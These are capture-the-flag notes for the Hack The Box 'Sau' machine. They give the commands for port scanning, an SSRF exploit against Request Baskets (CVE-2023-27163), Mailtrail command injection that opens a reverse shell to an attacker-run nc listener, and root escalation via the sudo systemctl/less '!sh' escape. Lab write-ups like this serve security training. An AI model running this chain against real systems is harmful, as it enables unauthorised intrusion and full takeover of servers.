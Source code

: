 # 💎 HTB: Sau - Command Notes

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.224  # Full TCP port scan
nmap -p 22,55555 -sCV 10.10.11.224      # Service/version detection on discovered ports
```

> Open ports: 22 [SSH](SSH), 55555 [(HTTP - Request Baskets service)](HTTP)

---

## 🧪 SSRF Exploitation (CVE-2023-27163)

**Tool/POC**:  
[Request Baskets SSRF GitHub PoC](https://github.com/entr0pie/CVE-2023-27163)

```bash
./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

> Uses SSRF to proxy internal services (e.g., Mailtrail on localhost)

---

## 🐚 Command Injection via Mailtrail (v0.53)

**Tool/POC**:  
[Mailtrail RCE GitHub Repo](https://github.com/sf7-sf7/Mailtrail-RCE)

```bash
nc -lvnp 443  # Listener

# Adjusted Mailtrail RCE script to target SSRF basket URL:
python mailtrail_rce.py 10.10.14.6 443 http://10.10.11.224:55555/<basket-id>
```

> Drops a reverse shell as `puma`

---

## 🧑‍💻 Shell Upgrade

```bash
script /dev/null -c bash
# Press Ctrl+Z
stty raw -echo; fg
reset
```

> Stabilizes the reverse shell

---

## 🧠 Privilege Escalation - Root via `less` + `systemctl`

```bash
sudo -l
# Shows: (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

sudo /usr/bin/systemctl status trail.service
# If output opens in less, type: !sh
```

> Less pager exploit: gain interactive shell as root via `!sh`

---

## 📂 Flags

```bash
cat /home/puma/user.txt
cat /root/root.txt
```